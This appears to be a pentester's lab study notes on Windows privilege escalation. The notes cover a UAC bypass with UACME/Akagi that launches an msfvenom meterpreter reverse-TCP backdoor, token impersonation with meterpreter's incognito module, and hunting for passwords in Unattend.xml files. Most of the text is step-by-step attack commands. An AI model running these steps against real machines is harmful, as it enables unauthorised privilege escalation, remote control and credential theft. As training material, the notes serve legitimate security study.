 ##### UAC BYPASS
>[!Summary] Summary
> This section was basically about bypassing Uac that prevents you from doing privilged actions like changing the password of a user in admin group who you have compromised already via a shell session - Because you need to click on the consent box which you cant via CLI so it just says "Access is denied"

>Bypass with hfiref0x/UACME - abuses the windows AutoElevate ;-
```bash
1. first generate an msfvenom payload
> windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe 

2. start listener
> use multi/handler

3. We now want to run our payload with privileges
- Using Akigi - key 23 (key 23, 33, avoid any "Fixed")

> akigi64.exe 23 \Windows\Temp\backdoor.exe

4. Migrate to an NT AUTHORITY process in the new shell
migrate to lsass, spoolsv.exe etc.

NB : MUST USE ABSOLUTE PATH TO BACKDOOR EXE else you wont receive shell - worked for me. The difference in the shell you recieve from the previous is the amount of privileges you have. check with "getprivs"
```

##### Access token impersonation
To Abuse `SeImpersonate`  / `SeAssignTokens` / `SeCreateTokens` privs
We abuse the `Delegate-Level` tokens NOT the `Impersonate-Level` tokens

>USING METERPRETER INCOGNITO MODULE
- the module can be used to display a list of available tokens that we can impersonate.
ATTACK CHAIN 
```bash
INCOGNITO MODULE - lists available tokens to impersonate

> load incognito
> list_tokens -u (You want the Delgation-Level tokens)
> impersonate_token "TOKEN_NAME" 

e.g
> impersonate_token "ATTACKDEFENSE\Administrator"

NB : you still need to migrate to a process of AUTHORITY even tho getuid says we successfully impersonated the user. - MIGRATE TO EXPLORER PROCESS OR ANY OTHER.
- getsystem works lol or printspoofer && potato family.
```

##### Password hunting in config files
> Unattended setup utility XML files
- LOCATIONS :-
```txt
> C:\\Windows\Panther\Unattend.xml
> C:\\Windows\Panther\Autounattend.xml
- passwords found here may be b64 encoded.
```
>The Hunt :- 
```bash
> search -f "unattend.xml"
> cd \Windows\Panther\

- FIND WITH POWERUP
> Import-Module PowerUp.ps1
> Invoke-PrivescAudit
```